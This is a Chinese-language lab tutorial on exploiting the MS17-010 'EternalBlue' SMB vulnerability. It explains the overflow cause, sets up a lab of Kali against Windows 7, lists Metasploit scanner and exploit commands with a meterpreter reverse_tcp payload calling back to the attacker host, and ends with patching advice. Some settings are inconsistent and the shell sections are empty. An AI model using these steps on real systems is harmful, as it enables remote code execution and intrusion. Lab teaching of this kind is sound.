








## MS17010 (永恒之蓝)

### 漏洞概述:

永恒之蓝漏洞是利用框架中一个针对SMB服务(445端口，主要用于连接unix系列系统和windows)进行攻击的漏洞，该漏洞导致攻击者在目标系统上可以执行任意代码。

### 漏洞原理：

MS17-010漏洞出现在的原因是SrvOs2FeaListSizeToNt在计算需要分配的内存长度时存在问题，以至于可以溢出到邻近的内存块，攻击者向 Windows SMBv1 服务器发送特殊设计的消息，可以远程命令执行。

### 环境搭建：

```
kail：192.168.182.130

win7：192.168.182.128
```

#### 注意事项：

win7需要注意以下几点：

1. 关闭防火请
2. 开启远程服务
3. kail与win7相互ping通
4. 开启445端口

### 漏洞利用

#### ***扫描sacnner

首先打开msf，命令行输入msfconsole，    //注意，当第一次使用时需要连接数据库

然后search MS17-010




```   
msf >  use auxiliary/scanner/smb/smb_ms17_010  //选择需要使用的模块
msf > show options                         //查看可设置选项 
msf >auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.182.128  //设置ip或IP段 
msf >auxiliary(scanner/smb/smb_ms17_010) > exploit     //探测是否存在漏洞
```



#### ***攻击exploit

`msf >auxiliary(scanner/smb/smb_ms17_010) > back`    //返回

可以使用谷歌语法查找到所需要的模块

`search  type:exploit name:ms17`

选择模块



```
msf > show options                         //查看可设置选项 

msf > auxiliary(smb_ms17_010) > set RHOSTS 192.168.182.130  //设置ip 
```

#### ***Payload模块

```
show payloads //选择所需要的payload

set payload   windows/x64/meterpreter/reverse_tcp  //选择payload

options	//查看选项

set lport 445 //设置端口号

set lhost 192.168.182.130 //设置主机的IP

```

options查看设置：


关键的设置无误后开始攻击 （rhost，lhost，rport，lport）



#### 获取shell：



##### 创建用户：



### 漏洞修复：

- 为计算机安装最新的安全补丁，微软已发布补丁MS17-010修复了“永恒之蓝”攻击的系统漏洞。
- 关闭445、135、137、138、139端口，关闭网络共享。
- \


